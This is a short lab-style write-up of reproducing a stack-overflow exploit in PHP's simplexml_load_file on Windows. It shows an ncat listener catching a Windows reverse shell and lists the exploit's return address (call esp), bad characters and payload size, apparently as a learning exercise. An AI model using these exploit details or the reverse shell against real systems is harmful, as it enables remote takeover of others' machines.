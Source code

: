 #Php Simplexml_load_file Stack Overflow

    osce32@ubuntu:~# ncat -lvp 4444
    Ncat: Version 7.25BETA2 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 192.168.126.134.
    Ncat: Connection from 192.168.126.134:49255.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\IEUser\Desktop>

Came across an exploit that was found by Yakir Wizman, which you can find here:     
http://www.black-rose.ml/2016/09/exploiting-php-for-fun-and-non-profit.html  
I highly suggest reading as he has very interesting work :)

Thought it would be awesome to see how he did it and learned a few things along the way as I have never done it to anything PHP. This was pretty interesting to say the least in making it work :)

So what I used were:  
1. 0x1017c6af : call esp    
2. Bad chars were: 0x00 and 0x5c    
3. Payload is 371 bytes. It's a reverse shell so it only works for me ;)    
